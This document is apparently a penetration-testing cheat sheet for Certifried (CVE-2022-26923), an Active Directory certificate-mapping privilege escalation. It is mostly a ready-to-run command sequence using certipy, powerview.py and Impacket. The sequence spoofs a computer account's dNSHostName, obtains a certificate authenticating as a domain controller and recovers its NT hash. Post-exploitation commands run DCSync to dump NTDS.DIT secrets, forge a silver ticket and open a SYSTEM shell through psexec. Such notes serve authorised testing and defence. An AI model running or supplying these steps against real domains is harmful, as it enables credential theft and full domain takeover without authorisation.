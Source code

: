 # Certifried-AD DS Privilege Escalation (CVE-2022-26923)

## Theory

> [!Overview] Title
> **Certifried (CVE-2022-26923)** abuses pre-May 2022 certificate **mapping** behavior. 
> 
> A domain user who can create/control a computer account can clear its SPNs, set its `dNSHostName` to a **target host's FQDN**, and request a **Machine** template certificate. 
> 
> The CA maps the cert to the spoofed `dNSHostName`, issuing a cert that **authenticates as the target machine** (including a DC). With this machine cert, you can obtain a TGT/NT hash and perform **DCSync** or forge **silver tickets**.

## Requirements

- AD/CA **not fully patched** for CVE-2022-26923 (weak/legacy mapping in effect). A telltale sign during testing is: `Certificate has no object SID` on issuance.
- Ability to **create** or **control** a computer account (default any domain user can create up to 10).
- Network reachability to DC/CA (RPC/Kerberos/LDAP).

---

## Linux

### Quick Vulnerability Probe (weak mapping)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -dc-ip <DC_IP> -template 'User'
# If output shows: "Certificate has no object SID" => no strong mapping, likely vulnerable
```

### Manual Path (Impacket + powerview.py)

#### 1) Create a computer account

```bash
addcomputer.py -computer-name '<NEW_MACHINE>$' -computer-pass '<NEW_MACHINE_PASS>' -dc-ip <DC_IP> '<DOMAIN>/<USER>':'<PASS>'
# Note: this adds no SPNs, so no cleanup needed
```

#### 2) (Optional) Identify target FQDN via certipy

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -stdout -vulnerable
# Note the CA and target host DNS names; choose <TARGET_HOST_FQDN>
```

#### 3) Set `dNSHostName` of the new machine to the **target**

```bash
python3 powerview.py <DOMAIN>/<USER>:'<PASS>'@<DC_IP>
PV > Set-DomainObject -Identity '<NEW_MACHINE>$' -Set dnsHostName="<TARGET_HOST_FQDN>"
# Expect: modified attribute dnshostname for CN=<NEW_MACHINE>,CN=Computers,....
```

#### 4) Request a **Machine** certificate as the spoofed machine

```bash
certipy req -u '<NEW_MACHINE>$' -p '<NEW_MACHINE_PASS>' -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'Machine'
# Expect: Got certificate with DNS Host Name '<TARGET_HOST_FQDN>'
#         Certificate has no object SID
# Saves to '<PFX_FILE>' (e.g., dc.pfx)
```

#### 5) Authenticate with the issued certificate (PKINIT)

```bash
certipy auth -pfx '<PFX_FILE>'
# => Writes Kerberos ccache '<CCACHE_FILE>' and may print NT hash '<NTHASH>'
```

### One-Command Path (all-in certipy)

```bash
certipy account create -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -user <NEW_MACHINE> -dns <TARGET_HOST_FQDN>
# Outputs the generated password and sets dnsHostName to the target

certipy req -u '<NEW_MACHINE>$' -p '<NEW_MACHINE_PASS>' -ca '<CA_NAME>' -template 'Machine' -dc-ip <DC_IP>
# => PFX for '<TARGET_HOST_FQDN>' and no object SID

certipy auth -pfx '<PFX_FILE>'
```

---

## Post-Exploitation

### A) DCSync (if the target was a **DC**)

Using the **TGT/ccache**:

```bash
KRB5CCNAME=<CCACHE_FILE> secretsdump.py -k -no-pass <TARGET_HOST_FQDN>
# Dumps NTDS.DIT secrets (e.g., <DOMAIN>\\Administrator NT hash)
```

Using the **NT hash** directly:

```bash
secretsdump.py '<TARGET_MACHINE_ACCOUNT>$'@<TARGET_HOST_FQDN> -hashes :<NTHASH>
```

### B) Silver Ticket (for non-DC machine certs)

1. Get **Domain SID**:

```bash
lookupsid.py '<TARGET_MACHINE_ACCOUNT>$'@<DC_IP> -hashes :<NTHASH>
# Domain SID: <DOMAIN_SID>
```

2. Forge ticket for an SPN (e.g., CIFS):

```bash
ticketer.py -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn cifs/<TARGET_HOST_FQDN> Administrator
# => Administrator.ccache
```

3. Pass-the-Ticket:

```bash
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass <TARGET_HOST_FQDN>
# Expect SYSTEM shell
```

---

## Notes & Troubleshooting

* If `certipy req` for a user/template shows **no object SID**, strong mapping isn't enforced - proceed.
* Ensure your created machine remains **SPN-light** before changing `dNSHostName` (Impacket's `addcomputer.py` behavior helps). If SPNs exist, **clear FQDN-bound SPNs** before changing `dNSHostName`.
* If issuance fails, verify template name (`Machine`) and CA name `<CA_NAME>`; some environments customize template names.
* Kerberos name resolution matters: configure `/etc/hosts` or DNS for `<TARGET_HOST_FQDN>` when using tickets.
